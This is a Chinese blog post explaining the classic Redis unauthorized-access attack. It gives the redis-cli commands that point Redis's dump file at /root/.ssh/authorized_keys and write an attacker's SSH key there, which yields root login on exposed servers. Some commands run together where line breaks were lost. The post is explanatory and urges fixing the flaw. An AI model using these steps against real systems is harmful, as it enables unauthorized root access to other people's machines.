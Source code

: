 ```yaml
---
layout: post
title: web实战开发--利用redis漏洞 Hacker对方机器的
categories:
- 今日头条
tags:
---
```

前言:

服务器端的安全问题, 以前有所耳闻, 听得最多的就是DDOS攻击, 还有就是缓冲区溢出攻击.

但是对通过Redis服务的安全漏洞, 从而绕过验证, 登陆对方机器, 这算是第一次耳闻.

今天趁此机会, 来谈一下, hacker对方机器的原理是什么?

![](http://p3.pstatp.com/large/97000015f03064144c2)

linux的信任机制:

做个互联网运维的工程师, 需要维护众多的机器, 如果每个命令都需要输入的密码的话. 那会非常的崩溃, 于是乎, 安全的免密码登陆方案便如同雨后春笋, 层出不穷.

其中配置信任关系的方案, 成了很多工程师的首选.

那信任关系是什么东东?

linux登陆时通过ssh协议, 来实现的, 但其通过配置RSA(ssh-genkey, ssh-copy-id)密钥对, 来实现免密码登陆.

具体操作:

1. 机器A生成公钥(空密码)

![](http://p3.pstatp.com/large/96c0001597f49e13e9c)

cat id_rsa.pub | ssh root@<ip> -x "cat >> /root/.ssh/authorized_keys"

3. 用户可以从机器A自由登陆到机器B

ssh root@<ip>



redis基础和管理命令:

redis号称世上最的强大数据结构服务器, 但其数据是可以持久化到本地的.

其数据以database的概念来存储的, 从linux的角度来看, database的集合为一个数据主目录, 而具体的database则以一个数据文件存在.

数据库目录: config get dir.

DB文件: config get dbfilename.

![](http://p3.pstatp.com/large/7fd0009f18886979772)

在redis交互中, 执行如下命令:

flushdbset hello worldsave

则cat dump.rdb文件内容后, 如下所示.

![](http://p3.pstatp.com/large/970000151a61fd2ed1e)



redis漏洞:

redis服务, 其没有配置任何安全措施, 同时以root账号运行. 那么任何人都能使用该redis服务.

1. 没有设置密码访问

2. bind于0.0.0.0:6379, 暴露于

3. root账号运行该redis服务

![](http://p3.pstatp.com/large/97000015f920ba2cebb)

在这个前提下, 攻击开始了.

hacker使用redis-cli, 或者其他工具, 连上redis服务.

1. 修改db的目录和文件名, 覆盖信任文件

redis:6379> config set dir /root/.sshredis:6379> config set dbfilename "authorized_keys"

2. 设置key/value值, 把秘钥写入

(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > val.txtcat val.txt | redis-cli -h <ip> -x set

3. 保存持久化

redis:6379> save

这样, 就简单的把hacker的信任秘钥写入到目标机器的/root/.ssh/authorized_keys文件上了.

这样就等价于, 最上面的免秘钥登陆设置. hacker只要简单的一个ssh登陆, 既达到了它的目标, 实在是完美.



后记:

有安全问题不可怕, 就怕知道漏洞, 还不去解决并修复它, 抱着侥幸心理, 永远是不行的.

本系列, 将讲述作者在使用和维护redis过程中, 一些心得, 希望和大家一起分享, 一起成长.